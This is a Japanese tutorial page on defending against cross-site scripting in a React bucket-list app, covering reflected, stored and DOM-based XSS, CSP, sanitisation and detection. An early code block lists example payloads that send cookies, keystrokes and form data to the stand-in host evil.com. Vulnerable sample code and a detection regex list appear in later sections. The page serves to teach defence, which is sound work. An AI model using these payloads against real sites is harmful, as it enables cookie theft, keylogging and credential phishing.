

# XSS攻撃対策

## 🎯 学習目標

- XSS（クロスサイトスクリプティング）攻撃の仕組みを理解する
- 3つのXSS攻撃タイプとそれぞれの対策を学ぶ
- Content Security Policy (CSP) の実装方法を知る
- 実際の攻撃事例と防御策を理解する
- バケットリストアプリでの対策実装を分析する

## 🚨 XSS攻撃とは

### 📝 基本概念

**XSS (Cross-Site Scripting)** は、Webアプリケーションに悪意のあるスクリプトを注入し、他のユーザーのブラウザで実行させる攻撃手法です。



### 😱 XSS攻撃による被害

```typescript
// 実際のXSS攻撃の例
const maliciousPayloads = [
  // Cookie盗取
  `<script>
    fetch('http://evil.com/steal?cookie=' + document.cookie);
  </script>`,
  
  // セッションハイジャック
  `<script>
    localStorage.setItem('evil_token', 'attacker_controlled');
    location.href = 'http://evil.com/dashboard';
  </script>`,
  
  // キーロガー
  `<script>
    document.addEventListener('keydown', function(e) {
      fetch('http://evil.com/log?key=' + e.key);
    });
  </script>`,
  
  // フィッシング
  `<script>
    document.body.innerHTML = '<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999"><h1>セッションが期限切れです</h1><form action="http://evil.com/phish"><input name="password" placeholder="パスワードを再入力してください"></form></div>';
  </script>`,
  
  // 認証情報窃取
  ` {
      form.addEventListener('submit', e => {
        const data = new FormData(form);
        fetch('http://evil.com/steal', {method:'POST', body:data});
      });
    });
  ">`
];
```

## 📊 XSS攻撃の3つのタイプ

### 1. 🔄 反射型XSS (Reflected XSS)

**特徴**: ユーザーの入力がそのままページに反映される

```typescript
// ❌ 脆弱性のあるコード例
function searchResults(query: string) {
  return `
    <h1>検索結果: ${query}</h1>
    <p>「${query}」の検索結果は見つかりませんでした</p>
  `;
}

// 攻撃URL例
// https://example.com/search?q=<script>alert('XSS')</script>
```

#### 🛡️ 対策例

```typescript
// ✅ 安全なコード
function searchResultsSafe(query: string) {
  const sanitizedQuery = sanitizeString(query);
  return `
    <h1>検索結果: ${sanitizedQuery}</h1>
    <p>「${sanitizedQuery}」の検索結果は見つかりませんでした</p>
  `;
}

// React での安全な実装
function SearchResults({ query }: { query: string }) {
  return (
    <div>
      <h1>検索結果: {query}</h1>  {/* React が自動でエスケープ */}
      <p>「{query}」の検索結果は見つかりませんでした</p>
    </div>
  );
}
```

### 2. 💾 格納型XSS (Stored XSS)

**特徴**: 悪意のあるスクリプトがデータベースに保存され、他のユーザーに影響する

```typescript
// ❌ 脆弱性のあるコード例
async function saveComment(content: string, userId: string) {
  // 入力値をそのまま保存（危険！）
  await db.insert('comments', {
    content: content,  // <script>...</script> がそのまま保存される
    user_id: userId,
    created_at: new Date()
  });
}

function displayComments(comments: Comment[]) {
  return comments.map(comment => `
    <div class="comment">
      <p>${comment.content}</p>  <!-- XSSスクリプトが実行される -->
      <span>投稿者: ${comment.author}</span>
    </div>
  `).join('');
}
```

#### 🛡️ 対策例

```typescript
// ✅ 安全なコード
async function saveCommentSafe(content: string, userId: string) {
  // 入力値をサニタイズしてから保存
  const sanitizedContent = sanitizeString(content);
  
  // さらにHTMLタグを完全に除去する場合
  const textOnlyContent = sanitizedContent.replace(/<[^>]*>/g, '');
  
  await db.insert('comments', {
    content: textOnlyContent,
    user_id: userId,
    created_at: new Date()
  });
}

// React での安全な表示
function CommentList({ comments }: { comments: Comment[] }) {
  return (
    <div>
      {comments.map(comment => (
        <div key={comment.id} className="comment">
          <p>{comment.content}</p>  {/* 自動エスケープ */}
          <span>投稿者: {comment.author}</span>
        </div>
      ))}
    </div>
  );
}
```

### 3. ⚡ DOM型XSS (DOM-based XSS)

**特徴**: JavaScriptでDOMを動的に操作する際に発生

```typescript
// ❌ 脆弱性のあるコード例
function updateContent() {
  const userInput = location.hash.substring(1); // URLのハッシュ部分を取得
  document.getElementById('content').innerHTML = userInput; // 危険！
}

// 攻撃URL例
// https://example.com/page#
```

#### 🛡️ 対策例

```typescript
// ✅ 安全なコード
function updateContentSafe() {
  const userInput = location.hash.substring(1);
  const sanitizedInput = sanitizeString(userInput);
  
  // innerHTML の代わりに textContent を使用
  const contentElement = document.getElementById('content');
  if (contentElement) {
    contentElement.textContent = sanitizedInput;
  }
}

// より安全なDOM操作
function createSafeElement(tag: string, content: string, className?: string) {
  const element = document.createElement(tag);
  element.textContent = content; // XSS安全
  if (className) {
    element.className = className;
  }
  return element;
}
```

## 🛡️ バケットリストアプリでの対策

### 🔧 実装されているXSS対策

```typescript
// app/lib/security-utils.ts より
// 基本的なサニタイゼーション
export const sanitizeString = (str: string): string => {
  const map: Record<string, string> = {
    "&": "&amp;",
    "<": "&lt;",
    ">": "&gt;",
    '"': "&quot;",
    "'": "&#x27;",
    "/": "&#x2F;",
  };

  return str.replace(/[&<>"'\/]/g, (s) => map[s]);
};

// より高度なXSS対策
export class SecurityValidator {
  static sanitizeInput(input: string): string {
    if (typeof input !== "string") return "";

    return (
      input
        // HTMLエンティティエンコード
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#x27;")
        .replace(/\//g, "&#x2F;")
        // JavaScript プロトコル除去
        .replace(/javascript:/gi, "")
        // データURL除去
        .replace(/data:/gi, "")
        // イベントハンドラ除去
        .replace(/on\w+\s*=/gi, "")
        // style属性除去
        .replace(/style\s*=/gi, "")
        .trim()
    );
  }
}
```

### 🔐 Content Security Policy (CSP)

```typescript
// app/lib/security-utils.ts より
// CSP（Content Security Policy）設定
export const setupCSP = () => {
  if (typeof document === "undefined") return;

  const csp = [
    "default-src 'self'",
    "script-src 'self' 'unsafe-inline'", // React開発のため一時的に unsafe-inline を許可
    "style-src 'self' 'unsafe-inline' fonts.googleapis.com",
    "img-src 'self' data: https:",
    "font-src 'self' fonts.gstatic.com",
    "connect-src 'self' https://*.supabase.co wss://*.supabase.co",
    "object-src 'none'",
    "base-uri 'self'",
    "form-action 'self'",
    "frame-ancestors 'none'",
    "upgrade-insecure-requests",
  ].join("; ");

  // 既存のCSPメタタグを削除
  const existingCSP = document.querySelector(
    'meta[http-equiv="Content-Security-Policy"]',
  );
  if (existingCSP) {
    existingCSP.remove();
  }

  // 新しいCSPメタタグを追加
  const meta = document.createElement("meta");
  meta.httpEquiv = "Content-Security-Policy";
  meta.content = csp;
  document.head.appendChild(meta);
};
```

### 📊 CSPの詳細設定

```typescript
// プロダクションレベルのCSP設定
export class CSPManager {
  static generateCSP(options: CSPOptions = {}): string {
    const {
      allowInlineScripts = false,
      allowInlineStyles = false,
      reportUri = null,
      nonce = null
    } = options;

    const directives = [
      // デフォルトソース
      "default-src 'self'",
      
      // スクリプトソース
      `script-src 'self'${allowInlineScripts ? " 'unsafe-inline'" : ""}${nonce ? ` 'nonce-${nonce}'` : ""}`,
      
      // スタイルソース
      `style-src 'self' fonts.googleapis.com${allowInlineStyles ? " 'unsafe-inline'" : ""}`,
      
      // 画像ソース
      "img-src 'self' data: https:",
      
      // フォントソース
      "font-src 'self' fonts.gstatic.com",
      
      // 接続先
      "connect-src 'self' https://*.supabase.co wss://*.supabase.co",
      
      // オブジェクト埋め込み禁止
      "object-src 'none'",
      
      // ベースURI制限
      "base-uri 'self'",
      
      // フォーム送信先制限
      "form-action 'self'",
      
      // フレーム埋め込み禁止
      "frame-ancestors 'none'",
      
      // HTTPS強制
      "upgrade-insecure-requests"
    ];

    // レポート機能
    if (reportUri) {
      directives.push(`report-uri ${reportUri}`);
    }

    return directives.join("; ");
  }

  static setCSPHeader(response: Response, csp: string) {
    response.headers.set("Content-Security-Policy", csp);
  }

  static generateNonce(): string {
    const array = new Uint8Array(16);
    crypto.getRandomValues(array);
    return Array.from(array, byte => byte.toString(16).padStart(2, '0')).join('');
  }
}

// 使用例
const nonce = CSPManager.generateNonce();
const csp = CSPManager.generateCSP({
  allowInlineScripts: false,
  allowInlineStyles: true,
  nonce: nonce,
  reportUri: "/api/csp-report"
});
```

## 🔬 高度なXSS対策

### 🎯 コンテキスト別エスケープ

```typescript
// コンテキストに応じた適切なエスケープ
export class ContextualEscaper {
  // HTML コンテキスト
  static escapeHTML(input: string): string {
    return input
      .replace(/&/g, "&amp;")
      .replace(/</g, "&lt;")
      .replace(/>/g, "&gt;")
      .replace(/"/g, "&quot;")
      .replace(/'/g, "&#x27;");
  }

  // HTML属性コンテキスト
  static escapeHTMLAttribute(input: string): string {
    return input
      .replace(/&/g, "&amp;")
      .replace(/"/g, "&quot;")
      .replace(/'/g, "&#x27;")
      .replace(/</g, "&lt;")
      .replace(/>/g, "&gt;");
  }

  // JavaScript コンテキスト
  static escapeJavaScript(input: string): string {
    return input
      .replace(/\\/g, "\\\\")
      .replace(/"/g, '\\"')
      .replace(/'/g, "\\'")
      .replace(/\n/g, "\\n")
      .replace(/\r/g, "\\r")
      .replace(/\t/g, "\\t")
      .replace(/</g, "\\u003c")
      .replace(/>/g, "\\u003e");
  }

  // CSS コンテキスト
  static escapeCSS(input: string): string {
    return input.replace(/[^a-zA-Z0-9-_]/g, (match) => {
      return `\\${match.charCodeAt(0).toString(16).padStart(6, '0')}`;
    });
  }

  // URL コンテキスト
  static escapeURL(input: string): string {
    return encodeURIComponent(input);
  }
}

// 使用例
function buildSafeHTML(userInput: string, href: string) {
  return `
    <div class="content">
      <p>${ContextualEscaper.escapeHTML(userInput)}</p>
      <a href="${ContextualEscaper.escapeURL(href)}" 
         data-value="${ContextualEscaper.escapeHTMLAttribute(userInput)}">
        リンク
      </a>
      <script>
        const data = "${ContextualEscaper.escapeJavaScript(userInput)}";
      </script>
      <style>
        .dynamic::before {
          content: "${ContextualEscaper.escapeCSS(userInput)}";
        }
      </style>
    </div>
  `;
}
```

### 🛡️ DOMPurify による高度なサニタイゼーション

```typescript
// DOMPurify ライブラリを使用した場合の例
// npm install dompurify @types/dompurify

import DOMPurify from 'dompurify';

export class AdvancedSanitizer {
  // 基本的なHTMLサニタイゼーション
  static sanitizeHTML(dirty: string): string {
    return DOMPurify.sanitize(dirty, {
      ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'u', 'ol', 'ul', 'li'],
      ALLOWED_ATTR: ['class'],
      FORBID_SCRIPT: true,
      FORBID_TAGS: ['script', 'object', 'embed', 'link', 'style', 'img'],
      FORBID_ATTR: ['onerror', 'onload', 'onclick', 'onmouseover']
    });
  }

  // マークダウン用のサニタイゼーション
  static sanitizeMarkdown(dirty: string): string {
    return DOMPurify.sanitize(dirty, {
      ALLOWED_TAGS: ['h1', 'h2', 'h3', 'p', 'br', 'strong', 'em', 'code', 'pre', 'blockquote', 'ul', 'ol', 'li', 'a'],
      ALLOWED_ATTR: ['href', 'title', 'class'],
      ALLOW_DATA_ATTR: false,
      FORBID_SCRIPT: true
    });
  }

  // コメント用の制限的サニタイゼーション
  static sanitizeComment(dirty: string): string {
    return DOMPurify.sanitize(dirty, {
      ALLOWED_TAGS: ['p', 'br', 'strong', 'em'],
      ALLOWED_ATTR: [],
      FORBID_SCRIPT: true,
      STRIP_COMMENTS: true
    });
  }

  // 完全にテキストのみにする
  static textOnly(dirty: string): string {
    return DOMPurify.sanitize(dirty, {
      ALLOWED_TAGS: [],
      ALLOWED_ATTR: [],
      KEEP_CONTENT: true
    });
  }
}
```

## 🔍 XSS検出とモニタリング

### 📊 XSS攻撃の検出

```typescript
// XSS攻撃パターンの検出
export class XSSDetector {
  private static readonly XSS_PATTERNS = [
    // Script タグ
    /<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi,
    
    // イベントハンドラ
    /on\w+\s*=\s*["\']?[^"\'>\s]+["\']?/gi,
    
    // JavaScript プロトコル
    /javascript\s*:/gi,
    
    // データURL
    /data\s*:\s*text\/html/gi,
    
    // iframe の悪用
    /<iframe[^>]*>/gi,
    
    // eval や setTimeout の悪用
    /\b(eval|setTimeout|setInterval)\s*\(/gi
  ];

  static detectXSS(input: string): XSSDetectionResult {
    const detectedPatterns: string[] = [];
    
    for (const pattern of this.XSS_PATTERNS) {
      const matches = input.match(pattern);
      if (matches) {
        detectedPatterns.push(...matches);
      }
    }

    return {
      hasXSS: detectedPatterns.length > 0,
      patterns: detectedPatterns,
      severity: this.calculateSeverity(detectedPatterns),
      recommendation: this.getRecommendation(detectedPatterns)
    };
  }

  private static calculateSeverity(patterns: string[]): 'low' | 'medium' | 'high' {
    if (patterns.some(p => p.includes('script'))) return 'high';
    if (patterns.some(p => p.includes('javascript:'))) return 'high';
    if (patterns.some(p => p.includes('on'))) return 'medium';
    return 'low';
  }

  private static getRecommendation(patterns: string[]): string {
    if (patterns.some(p => p.includes('script'))) {
      return 'スクリプトタグが検出されました。完全に除去することを推奨します。';
    }
    if (patterns.some(p => p.includes('on'))) {
      return 'イベントハンドラが検出されました。HTMLエスケープを実施してください。';
    }
    return '軽微なXSSパターンが検出されました。入力値のサニタイゼーションを実施してください。';
  }
}

// XSS攻撃のログ記録
export class XSSLogger {
  static async logXSSAttempt(
    input: string,
    userAgent: string,
    ipAddress: string,
    userId?: string
  ) {
    const detection = XSSDetector.detectXSS(input);
    
    if (detection.hasXSS) {
      const logEntry = {
        timestamp: new Date().toISOString(),
        type: 'xss_attempt',
        severity: detection.severity,
        input: input.substring(0, 1000), // 最初の1000文字のみ記録
        patterns: detection.patterns,
        userAgent,
        ipAddress,
        userId: userId || 'anonymous'
      };

      // セキュリティログに記録
      await this.writeSecurityLog(logEntry);

      // 高危険度の場合はアラート送信
      if (detection.severity === 'high') {
        await this.sendSecurityAlert(logEntry);
      }
    }
  }

  private static async writeSecurityLog(entry: any) {
    // ログファイルまたはデータベースに記録
    console.log('Security Log:', entry);
  }

  private static async sendSecurityAlert(entry: any) {
    // 管理者にアラート送信
    console.log('Security Alert:', entry);
  }
}
```

## 🎯 実際の防御実装

### 🔧 React でのXSS対策

```typescript
// React でのベストプラクティス
import { useMemo } from 'react';

// 安全な HTML レンダリング
function SafeHTMLRenderer({ content }: { content: string }) {
  const sanitizedContent = useMemo(() => {
    return AdvancedSanitizer.sanitizeHTML(content);
  }, [content]);

  return (
    <div 
      dangerouslySetInnerHTML={{ __html: sanitizedContent }}
      className="user-content"
    />
  );
}

// 動的スタイルの安全な適用
function SafeStyledComponent({ 
  children, 
  backgroundColor 
}: { 
  children: React.ReactNode;
  backgroundColor: string;
}) {
  // CSS値のサニタイゼーション
  const safeBgColor = useMemo(() => {
    // 許可された色のみ使用
    const allowedColors = /^#[0-9a-fA-F]{6}$|^rgb\(\d+,\s*\d+,\s*\d+\)$/;
    return allowedColors.test(backgroundColor) ? backgroundColor : '#ffffff';
  }, [backgroundColor]);

  return (
    <div style={{ backgroundColor: safeBgColor }}>
      {children}
    </div>
  );
}

// フォーム入力のリアルタイム検証
function SecureForm() {
  const [input, setInput] = useState('');
  const [warning, setWarning] = useState<string | null>(null);

  const handleInputChange = (value: string) => {
    setInput(value);

    // リアルタイムXSS検出
    const detection = XSSDetector.detectXSS(value);
    if (detection.hasXSS) {
      setWarning(`危険なパターンが検出されました: ${detection.recommendation}`);
    } else {
      setWarning(null);
    }
  };

  return (
    <form>
      <textarea
        value={input}
        onChange={(e) => handleInputChange(e.target.value)}
        className={warning ? 'border-red-500' : ''}
      />
      {warning && (
        <p className="text-red-600 text-sm">{warning}</p>
      )}
    </form>
  );
}
```

## 🎯 重要なポイント

### ✅ XSS対策のベストプラクティス

1. **入力時検証 + 出力時エスケープ**: 二重の防御
2. **CSP の実装**: スクリプト実行を制限
3. **コンテキスト別エスケープ**: HTML、JS、CSS、URL それぞれに適した処理
4. **フレームワークの活用**: React などの自動エスケープ機能を活用
5. **定期的な監査**: 新しい脆弱性の早期発見

### ❌ 避けるべき落とし穴

```typescript
// ❌ 危険な例
function dangerousExamples() {
  // innerHTML を直接使用
  element.innerHTML = userInput;
  
  // eval を使用
  eval(`const data = ${userInput}`);
  
  // 不完全なフィルタリング
  const filtered = userInput.replace('<script>', ''); // <Script> は通る
  
  // setAttribute で危険な属性
  element.setAttribute('onclick', userInput);
  
  // document.write を使用
  document.write(`<div>${userInput}</div>`);
}

// ✅ 安全な代替案
function safeAlternatives() {
  // textContent を使用
  element.textContent = userInput;
  
  // JSON.parse を使用
  const data = JSON.parse(sanitizedInput);
  
  // ホワイトリスト方式のフィルタリング
  const allowedTags = ['p', 'strong', 'em'];
  const filtered = DOMPurify.sanitize(userInput, { ALLOWED_TAGS: allowedTags });
  
  // データ属性の使用
  element.dataset.value = userInput;
  
  // createElement を使用
  const div = document.createElement('div');
  div.textContent = userInput;
}
```

## 🚀 次のステップ

XSS攻撃対策について理解できたら、次は **[CSRF攻撃対策](./csrf-protection.md)** で、クロスサイトリクエストフォージェリ攻撃の対策について学びましょう。

CSRF攻撃の仕組み、トークンベースの防御、SameSite Cookieの活用などを詳しく学習します。